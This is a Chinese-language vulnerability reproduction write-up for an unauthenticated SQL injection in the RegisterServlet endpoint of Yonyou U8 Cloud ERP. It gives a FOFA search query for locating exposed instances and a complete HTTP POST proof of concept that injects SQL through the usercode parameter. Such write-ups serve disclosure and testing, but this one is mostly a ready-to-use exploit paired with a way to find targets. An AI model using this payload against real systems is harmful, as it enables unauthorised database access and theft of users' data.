
# 用友U8 Cloud RegisterServlet SQL注入漏洞复现

### 0x01 产品简介

  用友U8 Cloud是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案。

### 0x02 漏洞概述

  用友U8 Cloud  RegisterServlet接口处存在SQL注入漏洞，未授权的攻击者可通过此漏洞获取数据库权限，从而盗取用户数据，造成用户信息泄露。

### 0x03 影响范围

 所有版本

### 0x04 复现环境

FOFA：app="用友-U8-Cloud"

![](assets/1701826162-d0fa43c245df2b605057562155bde5e9.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /servlet/RegisterServlet HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1

usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123')),3,32)>0--
```

查询123的MD5值
